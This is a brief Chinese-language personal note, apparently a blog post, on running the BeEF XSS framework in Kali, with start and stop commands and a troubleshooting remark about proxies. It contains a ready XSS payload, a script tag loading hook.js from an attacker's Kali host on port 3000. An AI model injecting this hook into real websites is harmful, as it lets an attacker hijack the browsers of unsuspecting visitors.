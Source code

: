 ```yaml
---
title: 'beef xss'
date: 2024-09-17T23:47:23+08:00
draft: false
slug: 0iug45d1
tags: ["Kali"]
---
```



## 命令

```sh
# start
beef-xss

beef-xss-stop
```

---
## xss注入

```html
<script src="http://<kali-ip>:3000/hook.js"></script>
```

---
# 问题记录
---
## beef 抓不到本地访问记录

==要直连，不能用代理！！！==

![](../../../../../img/Pasted%20image%2020240917234606.png)

> 为什么不能用代理？
> 
> gpt：代理服务器本身不在我的内网中，无法解析和访问内部地址
